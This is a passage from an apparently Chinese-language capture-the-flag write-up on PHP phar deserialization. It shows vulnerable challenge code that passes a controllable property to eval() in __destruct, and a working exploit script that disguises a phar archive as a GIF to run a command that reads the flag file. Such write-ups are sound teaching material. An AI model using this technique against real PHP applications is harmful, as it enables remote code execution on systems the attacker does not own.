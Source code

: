 ```php
		}
	}

	function __toString(){
		global $sandbox;
		global $ext;
		// return $sandbox.$this->Filename.$ext;
		return $this->Filename;
	}

	function __destruct(){
		if($this->token != $_SESSION['user']){
			$this->cmd = "die('check token falied!');";
		}
		eval($this->cmd);
	}
}

if(isset($_FILES['file'])) {
	$uploader = new Uploader();
	$uploader->upload($_FILES["file"]);
	if(@file_get_contents($uploader)){  //触发toString->触发phar反序列化
		echo "下面是你上传的文件：<br>".$uploader."<br>"; //__toString
		echo file_get_contents($uploader);  
	}
}
?>
```

明显的phar反序列化，name参数可控可利用phar，利用点在eval，逻辑很简单，需要注意的是 **$_SESSION['user']** 需要提前传一个文件获得

```php
<?php
class Uploader{
	public $Filename;
	public $cmd;
	public $token;
}
$a = new Uploader();
$a->Filename = "test";
$a->token = "GXYae5e4e67204bdd0d998be4c3d519c3a4";
$a->cmd = 'highlight_file("/var/www/html/flag.php");';
echo serialize($a);

$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头
$phar->setMetadata($a); //将自定义meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
$phar->stopBuffering();

?>
```
